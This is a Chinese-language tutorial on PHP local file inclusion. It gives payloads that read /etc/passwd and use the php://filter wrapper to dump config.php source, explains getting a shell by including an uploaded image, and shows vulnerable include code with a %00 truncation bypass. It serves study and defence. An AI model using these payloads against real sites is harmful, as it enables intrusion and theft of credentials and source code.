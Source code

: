 ```yaml
---
title: 文件包含漏洞
date: 2020-1-22 20:03:00
---
```


## 本地文件包含(LFI)

文件包含漏洞的产生原因是 PHP 语言在通过引入文件时，引用的文件名，用户可控，由于传入的文件名没有经过合理的校验，或者校验被绕过，从而操作了预想之外的文件，就可能导致意外的文件泄露甚至恶意的代码注入。

当被包含的文件在服务器本地时，就形成的本地文件包含漏洞。

### 漏洞利用

**利用条件：**

> （1）include()等函数通过动态变量的方式引入包含文件；
> （2）用户能够控制该动态变量。

**1、读取敏感文件**

```bash
?arg=/etc/passwd
```

**2、利用封装协议读源码**

```bash
?arg=php://filter/read=convert.base64-encode/resource=config.php	#这样能看到php文件的源码
```

**3、包含图片Getshell**

在上传的图片中写入恶意代码，然后用 LFI 包含调用，就会执行图片里的PHP代码

**4、截断包含**

漏洞代码：

```php
<?php
if(isset($_GET['arg']))
{
    include($_GET['arg'].".php"); 
}else{
    include(index.php);
 }
?>
```

这样做一定程度上修复了漏洞， 上传**图片一句话**并访问：`http://vuln.com/index.php?arg=1.jpg`会出错。

因为包含文件里面不存在`1.jpg.php`这个文件。

但是如果输入`http://vuln.com/index.php?arg=1.jpg%00`，就极有可能会绕过检测。

这种方法只适用于`php.ini`中`magic_quotes_qpc=off`并且`PHP`版本< 5.3.4的情况。
